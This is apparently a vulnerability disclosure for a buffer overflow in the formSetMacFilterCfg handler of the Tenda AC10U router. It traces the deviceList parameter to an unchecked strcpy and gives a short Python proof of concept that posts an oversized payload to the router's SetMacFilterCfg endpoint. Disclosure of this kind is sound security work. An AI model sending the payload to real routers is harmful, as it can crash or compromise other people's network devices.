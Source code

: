 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetMacFilterCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](4.png)

get value from macFilterType , and get into if

![](5.png)

get value from deviceList , pass to set_macfilter_rules

![](6.png)

pass to set_macfilter_rules_by_one

![](7.png)

pass to parse_macfilter_rule

![](8.png)

finally call strcpy ,cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/SetMacFilterCfg"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceList': payload , 'macFilterType': 1 })
```
